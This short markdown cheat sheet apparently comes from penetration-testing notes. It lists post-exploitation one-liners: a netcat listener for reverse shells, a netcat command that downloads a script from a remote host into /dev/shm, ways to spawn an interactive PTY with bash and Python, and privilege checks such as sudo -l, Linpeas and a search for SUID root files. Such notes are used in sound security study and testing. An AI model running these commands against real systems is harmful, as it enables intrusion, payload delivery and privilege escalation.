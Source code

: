 
# Reverse shells in Bash

  - `nc -nvlp 9999`
  - Download files: `nc -q 0 $HIP $HPORT > /dev/shm/script.sh`

# How to spawn PTYs

  - Using `script`: `/usr/bin/script -qc /bin/bash /dev/null`
  - `python -c 'import pty; pty.spawn("/bin/bash")'`

# Check privileges

  - `sudo -l`
  - Linpeas
  - `find / -user root -perm -4000 -print 2>/dev/null` 

